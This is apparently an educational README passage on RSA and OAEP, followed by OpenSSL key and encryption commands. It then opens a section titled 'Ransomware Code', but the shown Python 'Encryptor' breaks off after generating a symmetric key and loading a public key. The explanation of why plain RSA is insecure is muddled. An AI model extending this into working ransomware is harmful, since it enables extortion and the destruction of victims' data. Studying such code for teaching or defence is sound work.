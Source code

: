 $$ m^{ed} = m^{k(Φ(n)+1)} = (m^{Φ(n)})^k * m = (1)^k * m => m $$
which yields the plain message.

### Optimal Asymmetric Encryption Padding (OAEP)
Plain RSA encoding isn't secure as different messages will be encrypted using the same public key ***e***.
So OAEP adds **nonce** and **padding** to the message before its RSA encrypted and removes it before decrypting.
***
## OpenSSL
#### to generate a private_public_key
```sh
openssl genrsa -out priv_pub.key 1024
```
#### to view the generated key
```sh
openssl rsa -text -in priv_pub.key
```
#### to pull out public key out of the generated key pair
```sh
openssl rsa -in priv_pub.key -pubout -out pub.key
```
#### to view the public key
```sh
openssl rsa -text -pubin -in pub.key
```
#### to encrypt something
```sh
openssl pkeyutl -encrypt -pubin -inkey pub.key -in text -out encrypted_text
```
#### to decrypt that samething
```sh
openssl pkeyutl -decrypt -inkey priv.key -in encrypted_text -out text
```
#### to encode something
```sh
openssl base64 -e -in text -out encoded_text
```
#### to decode that samething
```sh
openssl base64 -d -in encoded_text -out text
```

---
## Ransomware Code
### Encryptor
```python
# IMPORTS
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.fernet import Fernet

symmetricKey = Fernet.generate_key()
fernet = Fernet(symmetricKey)

# IMPORTING THE PUBLIC KEY FROM LOCAL STORAGE
with open('./pub.key','rb') as keyFile:
    pubKey = serialization.load_pem_public_key(
            keyFile.read(),
            backend = default_backend()
```